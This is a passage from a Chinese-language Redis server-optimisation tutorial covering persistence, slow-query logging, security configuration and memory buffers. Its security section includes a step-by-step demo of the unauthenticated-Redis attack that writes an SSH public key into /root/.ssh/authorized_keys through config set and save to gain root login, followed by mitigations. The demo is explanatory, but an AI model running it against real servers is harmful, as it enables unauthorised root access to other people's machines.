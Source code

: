 ### 1、服务器端优化-持久化配置

Redis的持久化虽然可以保证数据安全，但也会带来很多额外的开销，因此持久化请遵循下列建议：

* 用来做缓存的Redis实例尽量不要开启持久化功能
* 建议关闭RDB持久化功能，使用AOF持久化
* 利用脚本定期在slave节点做RDB，实现数据备份
* 设置合理的rewrite阈值，避免频繁的bgrewrite
* 配置`no-appendfsync-on-rewrite` = yes，禁止在rewrite期间做aof，避免因AOF引起的阻塞

部署有关建议：

* Redis实例的物理机要预留足够内存，应对fork和rewrite
* 单个Redis实例内存上限不要太大，例如4G或8G。可以加快fork的速度、减少主从同步、数据迁移压力
* 不要与CPU密集型应用部署在一起
* 不要与高硬盘负载应用一起部署。例如：数据库、消息队列

### 2、服务器端优化-慢查询优化

#### 2.1 什么是慢查询

并不是很慢的查询才是慢查询，而是：在Redis执行时耗时超过某个阈值的命令，称为慢查询。

慢查询的危害：由于Redis是单线程的，所以当客户端发出指令后，他们都会进入到redis底层的queue来执行，如果此时有一些慢查询的数据，就会导致大量请求阻塞，从而引起报错，所以我们需要解决慢查询问题。

![img](images/server-01.png)

#### 2.2 慢查询配置

```shell
redis-cli -h 127.0.0.1 -p 6379 -a 123456

# `slowlog-log-slower-than`：慢查询阈值，单位是微秒。默认是10000，建议1000
config get slowlog-log-slower-than
# `slowlog-max-len`：慢查询日志（本质是一个队列）的长度。日志的长度有上限，默认是128，建议1000
config get slowlog-max-len
```

![img](images/server-02.png)

修改这两个配置可以使用：config set 命令：

![img](images/server-03.png)

#### 2.3 如何查看慢查询

知道了以上内容之后，那么咱们如何去查看慢查询日志列表呢：

* `slowlog len`：查询慢查询日志长度
* `slowlog get [n]`：读取n条慢查询日志
* `slowlog reset`：清空慢查询列表

![img](images/server-04.png)

### 3、服务器端优化-命令及安全配置

Redis会绑定在0.0.0.0:6379，这样将会将Redis服务暴露到公网上，而Redis如果没有做身份认证，会出现严重的安全漏洞.
漏洞重现方式：https://cloud.tencent.com/developer/article/1039000

为什么会出现不需要密码也能够登录呢，主要是Redis考虑到每次登录都比较麻烦，
所以Redis就有一种ssh免秘钥登录的方式，生成一对公钥和私钥，私钥放在本地，公钥放在redis端，
当我们登录时服务器，再登录时候，他会去解析公钥和私钥，
如果没有问题，则不需要利用redis的登录也能访问，这种做法本身也很常见，但是这里有一个前提，前提就是公钥必须保存在服务器上，才行，
但是Redis的漏洞在于在不登录的情况下，也能把秘钥送到Linux服务器，从而产生漏洞

漏洞演示

```shell
# 运行一个redis
docker run -itd --name redis-test -p 6380:6379 registry.cn-hangzhou.aliyuncs.com/zhengqing/redis:7.0.5
docker exec -it redis-test redis-cli


# 在本地生产公私钥文件  -f 放当前目录下
ssh-keygen -t RSA -f id_rsa
# 将公钥写入文件
(echo -e "  "; cat id_rsa.pub; echo -e "  ") > ssh.txt
# 连接Redis写入文件
cat ssh.txt | redis-cli -h 192.168.0.90 -p 6380 -x set zq-ssh
redis-cli -h 192.168.0.90 -p 6380
# 查看公钥
get zq-ssh
config set dir /root/.ssh/
config get dir
config set dbfilename "authorized_keys"
# 将公钥持久化到authorized_keys文件中
save


# 连接ssh
ssh root@192.168.0.90
# 通过秘钥免密连接服务器
ssh -i id_rsa root@192.168.0.90
```

漏洞出现的核心原因：

* Redis未设置密码
* 利用了Redis的config set命令动态修改Redis配置
* 使用了Root账号权限启动Redis

避免漏洞的一些解决建议：

* Redis一定要设置密码
* 禁止线上使用下面命令：keys、flushall、flushdb、config set等命令。可以利用rename-command禁用。
* bind：限制网卡，禁止外网网卡访问
* 开启防火墙
* 不要使用Root账户启动Redis
* 尽量不是有默认的端口

#### 漏洞验证框架Pocsuite

> http://github.com/knownsec/pocsuite

执行对应代码可以用于测试目标地址是否存在未授权的Redis服务。

### 4、服务器端优化-Redis内存划分和内存配置

当Redis内存不足时，可能导致Key频繁被删除、响应时间变长、QPS不稳定等问题。当内存使用率达到90%以上时就需要我们警惕，并快速定位到内存占用的原因。

`有关碎片问题分析`

Redis底层分配并不是这个key有多大，他就会分配多大，而是有他自己的分配策略，比如8,16,20等等，假定当前key只需要10个字节，此时分配8肯定不够，那么他就会分配16个字节，多出来的6个字节就不能被使用，这就是我们常说的 碎片问题

`进程内存问题分析：`

这片内存，通常我们都可以忽略不计

`缓冲区内存问题分析：`

一般包括客户端缓冲区、AOF缓冲区、复制缓冲区等。客户端缓冲区又包括输入缓冲区和输出缓冲区两种。这部分内存占用波动较大，所以这片内存也是我们需要重点分析的内存问题。

| `内存占用` | `说明`                                                     |
| ------------ | ------------------------------------------------------------ |
| 数据内存     | 是Redis最主要的部分，存储Redis的键值信息。主要问题是BigKey问题、内存碎片问题 |
| 进程内存     | Redis主进程本身运⾏肯定需要占⽤内存，如代码、常量池等等；这部分内存⼤约⼏兆，在⼤多数⽣产环境中与Redis数据占⽤的内存相⽐可以忽略。 |
| 缓冲区内存   | 一般包括客户端缓冲区、AOF缓冲区、复制缓冲区等。客户端缓冲区又包括输入缓冲区和输出缓冲区两种。这部分内存占用波动较大，不当使用BigKey，可能导致内存溢出。 |

于是我们就需要通过一些命令，可以查看到Redis目前的内存分配状态：

* info memory：查看内存分配的情况

![img](images/server-05.png)

* memory xxx：查看key的主要占用情况

![img](images/server-06.png)

接下来我们看到了这些配置，最关键的缓存区内存如何定位和解决呢？

内存缓冲区常见的有三种：

* 复制缓冲区：主从复制的repl_backlog_buf，如果太小可能导致频繁的全量复制，影响性能。通过replbacklog-size来设置，默认1mb
* AOF缓冲区：AOF刷盘之前的缓存区域，AOF执行rewrite的缓冲区。无法设置容量上限
* 客户端缓冲区：分为输入缓冲区和输出缓冲区，输入缓冲区最大1G且不能设置。输出缓冲区可以设置

以上复制缓冲区和AOF缓冲区 不会有问题，最关键就是客户端缓冲区的问题

客户端缓冲区：指的就是我们发送命令时，客户端用来缓存命令的一个缓冲区，也就是我们向redis输入数据的输入端缓冲区和redis向客户端返回数据的响应缓存区，输入缓冲区最大1G且不能设置，
所以这一块我们根本不用担心，如果超过了这个空间，redis会直接断开，因为本来此时此刻就代表着redis处理不过来了，我们需要担心的就是输出端缓冲区

![img](images/server-07.png)

我们在使用redis过程中，处理大量的big value，那么会导致我们的输出结果过多，如果输出缓存区过大，会导致redis直接断开，而默认配置的情况下，
其实他是没有大小的，这就比较坑了，内存可能一下子被占满，会直接导致咱们的redis断开，所以解决方案有两个

1. 设置一个大小
2. 增加我们带宽的大小，避免我们出现大量数据从而直接超过了redis的承受能力

